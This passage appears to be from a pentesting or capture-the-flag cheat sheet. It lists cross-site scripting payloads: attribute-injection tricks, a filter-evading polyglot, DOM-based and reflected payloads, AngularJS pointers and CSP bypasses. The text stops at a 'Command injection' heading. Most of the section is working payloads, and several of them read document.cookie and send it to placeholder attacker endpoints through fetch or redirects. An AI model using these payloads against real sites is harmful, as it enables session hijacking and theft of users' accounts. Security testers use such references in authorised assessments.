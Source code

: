 Control of image path:
`/images/cat.jpg" onload="alert('XSS');`

for `'` filter use `"` to bypass

Polyglot payload
```html=
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('XSS') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('XSS')//>\x3e`
```

redirect the user directly to you endpoint
```
<script>document.location='<your-endpoint>'.concat(document.cookie)</script>
```

Exfiltrate data:
`<script>fetch('http://<IP:PORT>?cookie=' + btoa(document.cookie) );</script>`

[OWASP's Filter evasion cheatsheet](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html)

#### DOM based XSS

redirect the user to your your server exfiltrating his cookie
```js=
';document.location.href='<your-server>?cookie='.concat(document.cookie);//
```

#### Reflected XSS

When your input is reflected inside a html tag you can add an event to execute some javasctipt inside the tag
```
'onmouseover='fetch("<your-endpoint>?cookie=".concat(document.cookie))
```

#### AngularJS

[Reference cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/XSS%20in%20Angular.md)

To generate an angular 1.6+ xss without quotes you can use [this script](https://github.com/0xblank/scripts/blob/master/generate_agular_xss.py).

#### CSP bypass

Check your csp with [Google's CSP evaluator](https://csp-evaluator.withgoogle.com/).

*   ```<script>window.location=`<ip>`</script>```

For CSP like `script-src 'unsafe-inline'` you can use the following payload:
```html=
<img src="" onerror="let u='//<you-endpoint>?t='.concat(btoa(<value-to-exfiltrate>));document.location=u"></img>
```


### Command injection
